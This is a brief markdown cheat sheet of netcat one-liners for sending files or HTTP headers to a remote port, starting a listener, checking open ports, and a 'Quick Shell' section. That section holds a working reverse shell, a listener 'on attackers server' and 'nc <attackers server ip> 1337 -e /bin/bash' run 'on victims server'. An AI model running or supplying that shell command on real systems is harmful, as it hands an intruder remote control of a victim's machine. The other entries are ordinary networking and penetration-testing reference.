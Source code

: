 Netcat - Redirect file or HTTP header to a remote port
-------------------------------------------
UDP redirect file to port 37
```
nc -v -u xxx.xxx.xxx.xxx 37 < ./file.txt
```
TCP redirect file to port 80
```
nc xxx.xxx.xxx.xxx 80 < ./file.txt
```
TCP redirect http post-headers to port 80
```
nc xxx.xxx.xxx.xxx 80 < ./post-headers.txt
```

Netcat - Quick Listener
-------------------------------------------
Start Listener
```
nc -l 3333
```
Connect to Listener
```
nc xxx.xxx.xxx.xxx 3333
```

Netcat - Quick Shell
-------------------------------------------
On attackers server
```
nc -lvvnp 1337
```
On victims server
```
nc <attackers server ip> 1337 -e /bin/bash
```

Netcat - Check if a port is open
-------------------------------------------
TCP
```
nc -z -v xxx.xxx.xxx.xxx <portnumber>
```
UDP
```
nc -z -v -u xxx.xxx.xxx.xxx <portnumber>
```

